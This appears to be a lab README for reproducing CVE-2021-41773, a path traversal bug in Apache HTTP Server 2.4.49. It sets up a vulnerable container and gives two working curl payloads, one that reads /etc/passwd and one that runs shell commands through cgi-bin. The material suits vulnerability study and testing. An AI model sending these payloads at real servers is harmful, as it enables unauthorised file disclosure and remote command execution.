 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)

[中文版本(Chinese version)](README.zh-cn.md)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root.

If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker-compose build
docker-compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

A simple CURL command to reproduce the vulnerability:

```
curl -v --path-as-is http://your-ip:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)
